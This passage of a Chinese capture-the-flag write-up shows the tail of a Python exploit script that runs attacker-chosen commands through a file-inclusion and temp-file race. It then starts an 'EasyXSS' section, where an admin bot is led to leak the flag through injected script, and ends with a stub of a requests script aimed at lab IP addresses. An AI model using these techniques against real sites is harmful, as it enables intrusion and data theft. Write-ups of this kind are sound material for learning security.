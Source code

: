 ```

 

 

if __name__ == '__main__':

    if len(sys.argv) &lt; 3:

        print("py -3 exp.py url include_param scan_param command")

        exit()

    url = sys.argv[1]

    include_param = sys.argv[2]

    scan_param = sys.argv[3]

 

    command = sys.argv[4]

 

    attack = ""

 

    threading.Thread(target=upload).start()

    threading.Thread(target=scanTmpDir).start()
```

通过信息搜集，最后通过 bin 下的 文件获取 flag。

## EasyXSS

阅读 hint ，是要通过构造一个 xss 让 admin 去逐字节比较 flag， 一开始在 write 那找到了一个 xss 可以引入 &lt;base&gt; 标签，导入外部 js， 但是尝试 report 好像没触发，无果。在about 处又找到了一个 xss：

```
import requests

 

 

r = requests.Session()

 

#host = 'http://47.104.192.54:8888'

 

host = 'http://47.104.210.56:8888'

username = 'guesttest'

password = 'guesttest'

 

```